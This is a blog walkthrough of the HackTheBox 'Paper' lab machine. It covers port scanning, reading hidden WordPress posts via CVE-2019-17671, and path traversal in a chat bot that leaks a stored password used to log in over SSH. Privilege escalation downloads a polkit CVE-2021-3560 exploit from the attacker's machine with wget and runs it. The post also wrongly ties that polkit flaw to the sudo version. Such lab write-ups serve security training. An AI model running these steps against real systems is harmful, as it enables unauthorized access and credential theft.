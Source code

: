 ```yaml
---
weight: 2
title: "Hackthebox - Paper"
date: 2022-06-25T18:28:15+05:00
lastmod: 2022-06-25T18:28:15+05:00
draft: false
author: "Saad Akhtar"
authorLink: "https://ssaadakhtarr.github.io/"
description: "Hackthebox easy machine paper walkthrough & tutorial."
images: []
resources:
- name: "featured-image"
  src: "machine-logo.png"

tags: ["hackthebox", "machines"]
categories: ["HackTheBox"]

lightgallery: true

toc:
  auto: false
---
```


Hackthebox easy machine paper walkthrough & tutorial.

<!--more-->

## Enumeration

Starting out with the nmap scan
```bash
nmap -A -vv -p 22,80 -oN nmap.txt 10.10.11.143
```

We have ports 22 and 80 open.
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
```

Visiting port 80, we have a default test page.

![Website on port 80](1.png "Website on port 80")

Looking at the response headers, we have a header X-Backend-Server with an interesting value.

![Response Headers](2.png "Response Headers")

Let's add this domain to our /etc/hosts file.

Visiting office.paper we have a new webpage.

![office.paper webpage](3.png "office.paper webpage")

A bit of information gathering revealed that the website is running Wordpress CMS.

![CMS](4.png "CMS")

So we can use wpscan to enumerate further and scan for known vulnerabilities.

```bash
wpscan --url http://office.paper --api-token 'YOUR-API-TOKEN-HERE'
```

## Foothold

From the above scan we have identified a that the running version of Wordpress is vulnerable to CVE-2019-17671

![Wordpress Vulnerability](5.png "Wordpress Vulnerability")

Looking at the exploit we have to add *?static=1* parameter.

![Wordpress Exploit](6.png "Wordpress Exploit")

Looking at other posts we can assume we may have access to some kind of secret content.

![Posts Comments](7.png "Posts Comments")

Visiting the following url: *http://office.paper/?static=1* we can see some secret content.

![secret comments](8.png "Secret Comments")

And Boom! we have a new subdomain. Let's add this to our /etc/hosts file as well.

Visiting the leaked url: *http://chat.office.paper/register/8qozr226AhkCHZdyY* we have a chat application.

![Chat Application](9.png "Chat Application")

After registering and logging in the chat application we have a #general channel. Reading through the messages I found out that we can run some interesting bot commands like the directory listing and reading files if we direct message to RecyclopsBot.

![Bot Commands](10.png "Bot Commands")

Testing out this functionality, I found a LFI vulnerability in the bot. Using the following command we can list files from parent directories as well.

![Local File Inclusion](11.png "Local File Inclusion")

Checking different files I found a password in the ../../dwight/hubot/.env file.

![Credentials](12.png "Credentials")

We already know there is a user named dwight on the system so let's try this password with user *dwight* using ssh.

```bash
ssh dwight@office.paper
```

![ssh](13.png "ssh")

**And we're in!**

### user.txt

![user.txt](14.png "user.txt")

## Privilege Escalation

I checked the sudo version using sudo --version command and the machine is running sudo version 1.8.29

![sudo_version](15.png "sudo version")

This version of sudo is vulnerable to **CVE-2021-3560** polkit vulnerability.

We can look for exploits on google and escalate our privileges.

I found [this](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) exploit working fine.

Start a python http server on attacker machine and fetch the file using wget on the target machine.

On Attacker Machine,
```bash
python3 -m http.server 80 
```

On Target Machine, 
```bash
wget http://10.10.14.46/CVE-2021-3560.py
```

Now simply run the file using python3 and we are root.

```bash
python3 CVE-2021-3560.py
```

### root.txt

![root.txt](16.png "root.txt")

**Thanks for reading!**
